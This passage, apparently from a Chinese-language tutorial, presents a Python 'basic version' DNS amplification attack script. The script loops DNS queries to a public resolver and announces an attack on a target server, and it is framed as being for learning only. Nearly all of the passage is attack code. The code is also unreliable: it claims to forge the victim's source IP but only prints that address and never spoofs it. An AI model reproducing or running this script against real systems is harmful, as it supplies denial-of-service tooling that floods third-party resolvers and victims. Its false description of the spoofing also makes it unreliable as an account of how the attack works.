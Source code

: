以下提供两种攻击实现方式，仅供学习网络安全原理使用。

### 4.1 基础版攻击脚本 (使用socket库)

```python
import socket
import random
import time

# 配置参数
target_ip = "192.168.1.100"  # 被攻击的目标服务器IP
dns_server = "8.8.8.8"       # 开放的递归DNS服务器
domain_name = "example.com"  # 查询的域名

# 构造DNS请求包
def build_dns_request(domain):
    # DNS包头 (ID, 标志字段, 问题数目)
    dns_header = b"\xaa\xaa"  # 随机ID
    dns_header += b"\x01\x00"  # 标志字段，标准查询
    dns_header += b"\x00\x01"  # 1个问题
    dns_header += b"\x00\x00"  # 0个答案
    dns_header += b"\x00\x00"  # 0个授权记录
    dns_header += b"\x00\x00"  # 0个附加记录

    # DNS问题部分 (域名 + 查询类型 + 查询类)
    domain_parts = domain.split(".")
    question = b""
    for part in domain_parts:
        question += bytes([len(part)]) + part.encode()
    question += b"\x00"  # 结束标志
    question += b"\x00\x01"  # 查询类型 A (IPv4 地址)
    question += b"\x00\x01"  # 查询类 IN (Internet)

    return dns_header + question

# 发送伪造的DNS请求
def send_dns_request():
    # 创建UDP socket
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)

    # 构造DNS请求包
    dns_request = build_dns_request(domain_name)

    while True:
        try:
            # 伪造源IP为目标IP
            spoofed_ip = target_ip
            
            # 发送请求到DNS服务器
            sock.sendto(dns_request, (dns_server, 53))
            print(f"发送DNS请求到 {dns_server}，伪造源IP：{spoofed_ip}")
            
            # 控制请求速率
            time.sleep(0.1)
        except KeyboardInterrupt:
            print("攻击停止。")
            break

# 主函数
if __name__ == "__main__":
    print(f"开始向目标服务器 {target_ip} 发起DNS放大攻击...")
    send_dns_request()
```
